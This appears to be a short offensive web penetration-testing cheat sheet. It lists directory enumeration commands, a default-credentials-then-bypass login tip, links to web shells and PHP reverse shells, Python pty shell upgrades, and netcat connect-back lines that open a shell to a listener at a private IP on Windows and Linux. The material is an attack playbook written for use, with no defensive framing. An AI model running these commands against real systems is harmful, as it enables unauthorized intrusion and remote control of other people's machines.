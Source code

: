 DIRECTORIES ENUMERATION
 
    Gobuster
       • gobuster -e -u http://<target.com>/ -w /usr/share/wordlists/dirb/common.txt
       
    Dirbuster
    
    ffuf
       • ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target.com>/FFUF
       
    Robots
      • http://<target.com>/robots.txt
    
    
    ////If login page is found, always try with default credentails first, and try to bypass second.



-------------------------------------------------------------------------------------------------------------------------------------



EXPLOITATION WITH HTML/PHP FILES FROM LOCAL MACHINE

  Running exploit HTML/PHP files
       • save exploit HTML/PHP files to /var/www/html
       • start apache2 server
       • run in browser localhost




-------------------------------------------------------------------------------------------------------------------------------------



USEFUL SHELL FOR WEB PAGE EXPLOITATION

  Command line Shells
  
       • https://github.com/flozz/p0wny-shell 
   
   
  Reverse Shells
  
       • http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
       • https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php



 ////If initial shell is occured, always try to spawn full shell (e.g, try python shell spawn, [in Windows] try to download nc.exe to server and connect back)
 
 
 Python Shell Spwan
 
       • python -c 'import pty;pty.spawn("/bin/sh")'
       
       • python3 -c 'import pty;pty.spawn("/bin/sh")'
    
    
 Netcat Connect Back
 
       • nc.exe 192.168.100.113 4444 –e cmd.exe   ////on Windows machines
       
       • nc 192.168.100.113 4444 –e /bin/bash     ////on Linux machines
       
       
       
 -------------------------------------------------------------------------------------------------------------------------------------
 
 
 Don't forget to use WPScan, Joomala Scaner, Dupral Scanner, etc... if website is using one of these
 
    wpscan
       •  wpscan --url "http://<target-IP>" -e u,p --api-token <TOKEN>
       
   

-------------------------------------------------------------------------------------------------------------------------------------

 Always try to view page source and JavaScript files in manual.
 
 
